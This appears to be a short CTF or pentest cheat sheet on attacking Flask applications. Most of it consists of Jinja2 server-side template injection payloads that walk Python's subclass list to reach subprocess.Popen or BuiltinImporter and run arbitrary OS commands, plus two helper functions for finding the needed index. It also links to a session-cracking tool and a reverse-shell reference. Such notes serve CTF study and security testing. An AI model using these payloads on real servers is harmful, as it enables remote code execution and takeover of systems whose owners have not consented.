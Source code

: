 # Flask

### Server side template injection

[ref](https://github.com/junron/public-writeups/blob/master/whitehacks-2021/waf.md)

List classes: `{{ "".__class__.__base__.__subclasses__() }}`

Get `subprocess.Popopen`:

```python
def get_popopen(string):
	i = string.index("<class 'subprocess.Popen'>")
	s = string[:i]
	return s.count(",")
```

Execute commands: `{{ "".__class__.__base__.__subclasses__()[<n>]([<cmd>], stdout=-1).communicate() }}`

**Alternative: `frozenimportlib`**

Get `subprocess.Popopen`:

```python
def get_builtinimporter(string):
	i = string.index("<class '_frozen_importlib.BuiltinImporter'>")
	s = string[:i]
	return s.count(",")
```

Execute commands: `{{ "".__class__.__base__.__subclasses__()[<n>]().load_module("os").system(<cmd>) }}`

## Session cracking 

[tool](https://github.com/Paradoxis/Flask-Unsign)

## Reverse shell

[PayloadsAllTheThings/Reverse Shell Cheatsheet.md at master · swisskyrepo/PayloadsAllTheThings (github.com)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md#python)